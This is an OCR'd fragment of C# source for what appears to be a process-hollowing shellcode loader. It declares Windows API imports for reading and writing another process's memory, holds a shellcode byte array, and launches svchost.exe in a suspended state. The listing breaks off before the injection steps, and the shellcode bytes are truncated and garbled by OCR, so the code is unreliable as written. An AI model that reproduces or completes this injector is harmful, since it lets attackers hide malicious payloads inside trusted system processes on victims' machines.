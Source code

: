 ```csharp
        public IntPtr lpReserved2;
        public IntPtr hStdInput;
        public IntPtr hStdOutput;
        public IntPtr hStdError;
    }

    [StructLayout(LayoutKind.Sequential)]
    internal struct PROCESS_INFORMATION
    {
        public IntPtr hProcess;
        public IntPtr hThread;
        public int dwProcessId;
        public int dwThreadId;
    }

    [StructLayout(LayoutKind.Sequential)]
    internal struct PROCESS_BASIC_INFORMATION
    {
        public IntPtr Reserved1;
        public IntPtr PebAddress;
        public IntPtr Reserved2;
        public IntPtr Reserved3;
        public IntPtr UniquePid;
        public IntPtr MoreReserved;
    }

    [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
    static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes,
        IntPtr lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory,
        [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);

    [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
    private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass,
        ref PROCESS_BASIC_INFORMATION procInformation, uint ProcInfoLen, ref uint retlen);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer,
        int dwSize, out IntPtr lpNumberOfbytesRW);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern uint ResumeThread(IntPtr hThread);

    public static void Main(string[] args)
    {
        byte[] shellcode = new byte[511] {
            0xac,0x65,0x93,,0xf2,0xe6...
            };
        STARTUPINFO StartInfo = new STARTUPINFO();
        PROCESS_INFORMATION ProcInfo = new PROCESS_INFORMATION();
        bool cResult = CreateProcess(null, "c:\\windows\\system32\\svchost.exe", IntPtr.Zero, IntPtr.Zero,
            false, 0x4, IntPtr.Zero, null, ref StartInfo, out ProcInfo);

        PROCESS_BASIC_INFORMATION BasicInfo = new PROCESS_BASIC_INFORMATION();
        uint tmp = 0;
```